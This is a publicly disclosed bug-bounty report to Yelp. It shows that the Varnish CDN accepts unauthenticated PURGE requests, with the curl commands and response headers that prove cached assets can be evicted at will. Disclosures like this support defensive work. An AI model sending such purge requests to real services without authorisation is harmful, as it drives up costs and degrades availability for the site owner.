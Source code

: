 # PURGE is not authenticated

## Report Details
- **Report ID**: 629612
- **URL**: https://hackerone.com/reports/629612
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-06-26T01:29:34.709Z
- **Disclosed**: 2023-01-19T18:07:20.090Z

## Reporter
- **Username**: rac_fckscty
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: yelp

## Vulnerability Information
Hi @yelp Team,

Anyone can issue a PURGE request for any resource and invalidate your caches. That can lead to increased bandwidth costs.

Fetching the resource headers, we can see in the `X-Cache-Hits: 1, 14` :
```
E:\>curl https://s3-media0.fl.yelpcdn.com/assets/public/pride@2x.yelp_design_web.yji-629fce3629585b9db2137d9353196628.png --head
HTTP/1.1 200 OK
ETag: "629fce3629585b9db2137d9353196628"
x-amz-version-id: KnfcY6QenKubeC6DBXpUT1d87B17ORdD
Content-Type: image/png
Server: AmazonS3
Via: 1.1 varnish
Access-Control-Allow-Origin: *
Content-Length: 17079
Accept-Ranges: bytes
Date: Wed, 26 Jun 2019 01:22:10 GMT
Via: 1.1 varnish
Connection: keep-alive
X-Served-By: cache-sjc3141-SJC, cache-hkg17922-HKG
X-Cache: HIT, HIT
X-Cache-Hits: 1, 14
X-Timer: S1561512131.889727,VS0,VE0
Cache-Control: max-age=315360000, immutable
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

Unauthenticated purge request:
```
E:\>curl https://s3-media0.fl.yelpcdn.com/assets/public/pride@2x.yelp_design_web.yji-629fce3629585b9db2137d9353196628.png --head -XPURGE
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 46
Accept-Ranges: bytes
Date: Wed, 26 Jun 2019 01:22:17 GMT
X-Varnish: 1668603163
Via: 1.1 varnish
Connection: keep-alive
X-Served-By: cache-hkg17923-HKG
```

Header `X-Cache-Hits: 1, 0`:
```
E:\>curl https://s3-media0.fl.yelpcdn.com/assets/public/pride@2x.yelp_design_web.yji-629fce3629585b9db2137d9353196628.png --head
HTTP/1.1 200 OK
ETag: "629fce3629585b9db2137d9353196628"
x-amz-version-id: 8qpzJuX00EuyeMTUm5QGEHehZ2rbfRmQ
Content-Type: image/png
Server: AmazonS3
Via: 1.1 varnish
Access-Control-Allow-Origin: *
Content-Length: 17079
Accept-Ranges: bytes
Date: Wed, 26 Jun 2019 01:22:20 GMT
Via: 1.1 varnish
Connection: keep-alive
X-Served-By: cache-sjc3129-SJC, cache-hkg17923-HKG
X-Cache: HIT, MISS
X-Cache-Hits: 1, 0
X-Timer: S1561512140.209567,VS0,VE151
Cache-Control: max-age=315360000, immutable
Timing-Allow-Origin: *
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

## Impact

That can lead to increased bandwidth costs.

## Attachments
No attachments
